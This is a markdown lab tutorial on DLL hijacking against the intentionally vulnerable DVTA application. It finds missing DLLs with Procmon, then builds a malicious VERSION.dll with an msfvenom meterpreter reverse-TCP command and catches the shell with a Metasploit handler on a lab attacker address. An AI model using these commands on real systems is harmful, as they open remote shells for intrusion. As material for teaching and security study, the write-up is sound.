 # DLL⚙️ Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom, Metasploit, Apache Server

## Lab Setup
- Create two virtual machine:
  - ***Windows OS*** for executing exe application *(Victim Machine)*
    - Download [**DVTA**](https://github.com/srini0x00/dvta) Vulnerable Thick Client Application developed in C# .NET for learning purpose.  
  - ***Kali Linux*** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> ### **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Install Applciation on Windows System >> Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> ### **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> ### **Step-3: Now find the Dlls which are trying to load from current working application but is not available** ***(e.g: VERSION.DLL)***

![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/3.jpg) 
            Application is trying to load VERSION.DLL but not able to find in to application directory.
            
> ### **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/4.jpg)

> ### **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 
   
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/5.jpg)

> ### **Step-6: Reverse shell handler created successfully, Now paste malicious DLL(which we created through Step-4) in to the application directory & launch the application**

![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/6.jpg)

   *As you can see application is trying to load the malicious DLL without checking it and we got system reverse shell.*

